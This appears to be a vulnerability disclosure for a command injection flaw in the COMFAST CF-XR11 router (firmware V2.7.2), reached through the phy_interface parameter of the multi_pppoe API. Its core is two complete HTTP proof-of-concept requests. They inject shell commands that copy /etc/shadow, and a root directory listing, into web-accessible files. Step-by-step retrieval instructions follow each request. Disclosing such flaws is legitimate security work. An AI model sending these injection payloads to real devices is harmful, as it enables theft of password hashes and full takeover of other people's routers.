 # COMFAST CF-XR11 V2.7.2 Command Injection in `multi_pppoe`

## Overview
A command injection vulnerability exists in the COMFAST CF-XR11 (firmware V2.7.2) in the `multi_pppoe` API (`/usr/bin/webmgnt`, function `sub_423930`). Attackers can inject arbitrary commands via the `phy_interface` parameter in a POST request to `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`, enabling unauthorized access or full device compromise.

## Details
- **Vendor**: COMFAST
- **Vendor Website**: http://www.comfast.cn/
- **Product**: COMFAST CF-XR11
- **Firmware**: V2.7.2
- **Firmware Download**: http://dl.comfast.cn/firmware/CF-XR11-V2.7.2.rar
- **Endpoint**: `/cgi-bin/mbox-config?method=SET&section=multi_pppoe`
- **Vulnerability**: Command Injection
- **CVE ID**: Pending
- **Impact**: Execute arbitrary commands, access sensitive files, or gain full control.
- **Reported by**: n0ps1ed (n0ps1edzz@gmail.com)

### Description
The `phy_interface` parameter is unsanitized and used in a `system_0` call (`sprintf_0(v78, "ifdown %s; ifup %s", v76, v76)`). When `action` is set to `"one_click_redial"`, malicious input in `phy_interface` (e.g., `br-wan && cat /etc/shadow > /www-comfast/test.txt`) executes arbitrary commands.

![PoC 2 Result: Root Directory Listing](./imgs/1.png)
s
## Proof of Concept (PoC)

### PoC 1: Dump `/etc/shadow`
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 110
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && cat /etc/shadow > /www-comfast/test.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request using `curl` or Burp Suite.
  2. Access `http://cflogin.cn/test.txt` to view `/etc/shadow`.
- **Result**: The `/etc/shadow` file is written to `/www-comfast/test.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/2.png)
![PoC 2 Result: Root Directory Listing](./imgs/3.png)

### PoC 2: List Root Directory (`ls /`)
```http
POST /cgi-bin/mbox-config?method=SET&section=multi_pppoe HTTP/1.1
Host: cflogin.cn
Content-Length: 104
Content-Type: application/json
Cookie: COMFAST_SESSIONID=6501a8c0-ffffffc40f08ffffffaaffffff82fffffff0-2c28fa16
Connection: close

{
  "action": "one_click_redial",
  "phy_interface": "br-wan && ls / > /www-comfast/ls.txt",
  "real_num": 1
}
```

- **Steps**:
  1. Send the request.
  2. Access `http://cflogin.cn/ls.txt` to view the root directory listing.
- **Result**: The root directory listing is written to `/www-comfast/ls.txt`.

![PoC 2 Result: Root Directory Listing](./imgs/4.png)
![PoC 2 Result: Root Directory Listing](./imgs/5.png)

## Affected Versions
- COMFAST CF-XR11 V2.7.2
